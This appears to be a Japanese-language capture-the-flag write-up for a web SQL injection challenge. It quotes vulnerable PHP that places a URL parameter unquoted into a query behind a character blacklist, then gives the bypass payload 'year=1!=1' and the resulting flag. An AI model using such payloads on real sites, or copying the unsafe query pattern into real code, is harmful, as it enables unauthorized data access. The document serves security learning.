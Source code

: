 # SQL Challenge 1:Web:pts
問題ページ： [https://sql1.wanictf.org/index.php?year=2011](https://sql1.wanictf.org/index.php?year=2011)  
今まで見たアニメのリストをデータベースに登録したよ。間違えて秘密の情報（FLAG）もデータベースに登録しちゃったけど、たぶん誰にも見られないし大丈夫だよね。  
(Hint)  
SQL injectionの問題です。  
URLの「year=」の後に続く数字(年号)をSQL injectionを起こすような文字列に変更するとFLAGが表示されます。  
一部使えない文字もあるのでソースコード(index.php)を参考に考えてみてください。  
必要に応じてデータベースのスキーマ(1_schema.sql)も参考にしてください。  
(注意)  
sql-chall-1.zipは問題を解くために必須の情報ではなく、docker-composeを利用してローカルで問題環境を再現するためのものです。  
興味のある方は利用してみてください。  
[index.php](index.php)　　　　[1_schema.sql](1_schema.sql)　　　　[sql-chall-1.zip](sql-chall-1.zip)  

# Solution
URLにアクセするとアニメのリストが表示される。  
SQL_Challenge_1  
[site.png](site/site.png)  
index.phpを見ると以下の部分でSQLインジェクションが可能であることに気付く。  
```php
~~~
                    //urlの"year="の後に入力した文字列を$yearに入れる。
                    $year = $_GET["year"];

                    //一部の文字は利用出来ません。以下の文字を使わずにFLAGを手に入れてください。
                    if (preg_match('/\s/', $year))
                        exit('危険を感知'); //スペース禁止
                    if (preg_match('/[\']/', $year))
                        exit('危険を感知'); //シングルクォート禁止
                    if (preg_match('/[\/\\\\]/', $year))
                        exit('危険を感知'); //スラッシュとバックスラッシュ禁止
                    if (preg_match('/[\|]/', $year))
                        exit('危険を感知'); //バーティカルバー禁止                    

                    //クエリを作成する。
                    $query = "SELECT * FROM anime WHERE years =$year";
~~~
```
禁止文字以外を使ってTrueにしてやればよい。  
`1!=1`により常にTrueとすることができる。  
`https://sql1.wanictf.org/index.php?year=1!=1`で全データが列挙され、その中にflagがあった。  
flag  
[flag.png](site/flag.png)  

## FLAG{53cur3_5ql_a283b4dffe}